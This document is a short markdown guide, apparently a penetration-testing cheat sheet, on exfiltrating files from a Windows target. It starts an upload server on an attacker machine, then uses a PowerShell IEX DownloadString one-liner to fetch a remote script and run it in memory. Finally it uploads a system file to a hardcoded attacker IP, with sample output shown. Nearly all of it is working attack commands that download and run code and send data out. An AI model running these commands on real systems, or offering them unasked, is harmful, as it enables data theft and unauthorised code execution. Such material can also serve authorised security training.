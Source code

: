 
## 1. Set Up an Upload Server (Attacker Machine)

Use Python’s **`uploadserver`** module.

### Install the module:

```bash
pip3 install uploadserver
```

### Start the upload server:

```bash
python3 -m uploadserver
```

The server will start on port **8000**.  
Uploads will be accepted at:

```
http://<attacker_ip>:8000/upload
```

---

## 2. Load the PSUpload Script (Target Machine)

On the **Windows target**, download the script into memory:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

This loads the **`Invoke-FileUpload`** function into your PowerShell session.

---

## 3. Upload the File (Target Machine)

Now you can upload any file to the attacker’s server. For example, to upload the `hosts` file:

```powershell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

---

### Example Output:

```
[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

---

## Tips

- Always confirm the **IP and port** match your attacker server.
    
- Use `https://` with a trusted certificate if operating in secure environments.
    
- Verify the file hash after upload to ensure integrity.
    

---
